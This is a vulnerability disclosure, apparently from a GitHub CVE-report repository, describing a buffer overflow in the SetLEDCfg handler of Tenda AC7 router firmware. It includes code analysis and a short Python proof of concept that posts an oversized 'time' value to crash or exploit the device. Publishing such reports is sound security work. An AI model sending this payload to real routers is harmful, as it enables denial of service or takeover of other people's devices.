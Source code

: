 # Shenzhen Jixiang Tengda Technology Co., Ltd. AC7 has a Buffer Overflow vulnerability

**Vulnerability URL**: [http://192.168.198.76/goform/SetLEDCfg](http://192.168.198.76/goform/SetLEDCfg)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/2776](https://www.tenda.com.cn/material/show/2776)

## Vulnerability Analysis
The Tenda AC7_V15.03.06.44 firmware has a buffer overflow vulnerability in the `formsetschedled` function

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed.png)

This function accepts `time` and `time_interval` from wp via a POST request. Then, at lines 36 and 37, it calls the `strtok` function twice to extract parts of `time_interval`. At line 40, it passes the extracted results to the `mib2utc` function without any checks. If the input parameter is too large, it will cause the buffer `ali_val` to overflow, which can lead to denial of service or remote code execution.  
Cross-referenced location: from the `formSetSchedLed` function, routed to `SetLEDCfg`, at line 51.

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed2.png)

Further cross-referenced.

![Image 4](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed3.png)

It can be determined that the vulnerability occurs at the page path `goform/SetLEDCfg`.

## payload
```python
from pwn import *
import requests
url = "http://192.168.198.76/goform/SetLEDCfg"
payload = 1000 * b"1" + b":30-06:30"
response = requests.post(url, data={"time" : payload})
```

# reproduce
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed4.png)

![Image 6](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed5.png)

![Image 7](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed6.png)
